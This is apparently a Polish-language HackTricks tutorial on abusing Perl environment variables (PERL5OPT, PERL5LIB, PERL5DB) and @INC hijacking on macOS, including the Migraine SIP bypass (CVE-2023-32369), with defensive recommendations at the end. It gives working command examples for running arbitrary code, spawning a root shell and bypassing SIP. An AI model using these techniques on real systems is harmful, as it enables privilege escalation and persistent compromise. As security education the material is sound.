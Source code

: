 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Poprzez zmienną środowiskową `PERL5OPT` & `PERL5LIB`

Używając zmiennej środowiskowej **`PERL5OPT`**, możliwe jest zmuszenie **Perl** do wykonywania dowolnych poleceń, gdy interpreter się uruchamia (nawet **przed** zanalizowaniem pierwszej linii docelowego skryptu). Na przykład, stwórz ten skrypt:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
Teraz **wyeksportuj zmienną środowiskową** i uruchom skrypt **perl**:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
Inną opcją jest stworzenie modułu Perl (np. `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
A następnie użyj zmiennych środowiskowych, aby moduł był lokalizowany i ładowany automatycznie:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### Inne interesujące zmienne środowiskowe

* **`PERL5DB`** – gdy interpreter jest uruchamiany z flagą **`-d`** (debugger), zawartość `PERL5DB` jest wykonywana jako kod Perl *w kontekście* debuggera. 
Jeśli możesz wpływać zarówno na środowisko **jak i** flagi wiersza poleceń uprzywilejowanego procesu Perl, możesz zrobić coś takiego:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # uruchomi powłokę przed wykonaniem skryptu
```

* **`PERL5SHELL`** – w systemie Windows ta zmienna kontroluje, który plik wykonywalny powłoki Perl użyje, gdy będzie musiał uruchomić powłokę. Wspomniano o niej tutaj tylko dla pełności, ponieważ nie jest istotna w macOS.

Chociaż `PERL5DB` wymaga przełącznika `-d`, powszechnie można znaleźć skrypty konserwacyjne lub instalacyjne, które są wykonywane jako *root* z włączoną tą flagą dla szczegółowego rozwiązywania problemów, co czyni tę zmienną ważnym wektorem eskalacji.

## Poprzez zależności (nadużycie @INC)

Możliwe jest wylistowanie ścieżki dołączania, którą Perl będzie przeszukiwał (**`@INC`**), uruchamiając:
```bash
perl -e 'print join("\n", @INC)'
```
Typowy wynik na macOS 13/14 wygląda następująco:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
Niektóre z zwróconych folderów nawet nie istnieją, jednak **`/Library/Perl/5.30`** istnieje, *nie* jest chroniony przez SIP i znajduje się *przed* folderami chronionymi przez SIP. Dlatego, jeśli możesz pisać jako *root*, możesz umieścić złośliwy moduł (np. `File/Basename.pm`), który będzie *preferencyjnie* ładowany przez każdy skrypt z uprawnieniami importujący ten moduł.

> [!WARNING]
> Nadal potrzebujesz **root** do pisania w `/Library/Perl`, a macOS wyświetli monit **TCC** prosząc o *Pełny dostęp do dysku* dla procesu wykonującego operację zapisu.

Na przykład, jeśli skrypt importuje **`use File::Basename;`**, możliwe byłoby stworzenie `/Library/Perl/5.30/File/Basename.pm` zawierającego kod kontrolowany przez atakującego.

## Ominięcie SIP za pomocą Asystenta Migracji (CVE-2023-32369 “Migrena”)

W maju 2023 roku Microsoft ujawnił **CVE-2023-32369**, nazywany **Migreną**, technikę poeksploatacyjną, która pozwala atakującemu *root* całkowicie **ominąć Ochronę Integralności Systemu (SIP)**. 
Wrażliwym komponentem jest **`systemmigrationd`**, demon z uprawnieniem **`com.apple.rootless.install.heritable`**. Każdy proces potomny uruchomiony przez ten demon dziedziczy to uprawnienie i dlatego działa **poza** ograniczeniami SIP.

Wśród dzieci zidentyfikowanych przez badaczy znajduje się interpreter podpisany przez Apple:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Ponieważ Perl respektuje `PERL5OPT` (a Bash respektuje `BASH_ENV`), zanieczyszczenie *środowiska* demona jest wystarczające, aby uzyskać dowolne wykonanie w kontekście bez SIP:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
Kiedy `migrateLocalKDC` jest uruchamiane, `/usr/bin/perl` startuje z złośliwym `PERL5OPT` i wykonuje `/private/tmp/migraine.sh` *zanim SIP zostanie ponownie włączony*. Z tego skryptu można na przykład skopiować ładunek do **`/System/Library/LaunchDaemons`** lub przypisać rozszerzony atrybut `com.apple.rootless`, aby uczynić plik **nieusuwalnym**.

Apple naprawiło problem w macOS **Ventura 13.4**, **Monterey 12.6.6** i **Big Sur 11.7.7**, ale starsze lub niezałatane systemy pozostają podatne na ataki.

## Rekomendacje dotyczące zabezpieczeń

1. **Wyczyść niebezpieczne zmienne** – uprzywilejowane launchdaemons lub zadania cron powinny startować w czystym środowisku (`launchctl unsetenv PERL5OPT`, `env -i`, itd.).
2. **Unikaj uruchamiania interpreterów jako root**, chyba że jest to ściśle konieczne. Używaj skompilowanych binariów lub szybko zrzucaj uprawnienia.
3. **Dostarczaj skrypty z `-T` (tryb zanieczyszczenia)**, aby Perl ignorował `PERL5OPT` i inne niebezpieczne przełączniki, gdy sprawdzanie zanieczyszczenia jest włączone.
4. **Utrzymuj macOS w aktualności** – “Migraine” jest w pełni załatane w bieżących wydaniach.

## Odnośniki

- Microsoft Security Blog – “Nowa podatność macOS, Migraine, może obejść Ochronę Integralności Systemu” (CVE-2023-32369), 30 maja 2023.
- Hackyboiz – “Badanie obejścia SIP w macOS (PERL5OPT & BASH_ENV)”, maj 2025.

{{#include ../../../banners/hacktricks-training.md}}
